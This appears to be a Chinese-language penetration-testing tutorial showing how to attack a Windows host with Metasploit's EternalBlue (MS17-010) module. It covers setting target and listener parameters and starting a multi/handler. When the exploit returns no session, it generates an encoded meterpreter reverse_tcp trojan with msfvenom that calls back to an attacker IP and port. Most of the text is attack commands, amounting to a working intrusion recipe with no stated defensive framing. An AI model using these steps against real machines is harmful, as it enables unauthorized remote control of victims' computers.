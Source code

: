 ## 渗透利用

---

1 加载 永恒之蓝漏洞利用模块
```
use exploit/windows/smb/ms17_010_eternalblue
```

2  输入  
```markdown
options
```
  查看扫描模块需要配置的参数

3.1 然后我们配置了rhost  （rhost指的是目标主机ip）
```
set rhost   ip

# 注意:
lhost 指的是攻击机.(监控主机的iP )
lport 指的是攻击机的端口(监控的端口 )  (如果没有给配置,需要配置一下)
```

**注意: 端口必须没有被占用**
> 或者

```markdown
# 在msf下输入:
use /exploit/multi/handler

# 然后查看当前模块端口的默认是指,直接使用默认的就行, 输入:
options

```
然后我们执行扫描 输入:
```
  run 
```
开始,执行永恒之蓝漏洞利用啦

但是发现失败  提示 模块已经利用了  但是没有返回对应 session

![](https://cdn.jsdelivr.net/gh/wangyuhubugui/BJYH_picture@main/img/bffdb79061ad4b0aa92d2dfde83e9f1b.png#id=rU3M9&originHeight=127&originWidth=1045&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

备选方案通过植入木马的方式进行利用

---

我们知道目标机器是win系统  所以使用msfvenom  生成一个win平台的木马
就是一个(payload)
> 只需更换**LHOST**和 **LPORT**就行

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp

LHOST=192.168.3.33 LPORT=4446 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 10  -f exe -o payload.exe
```
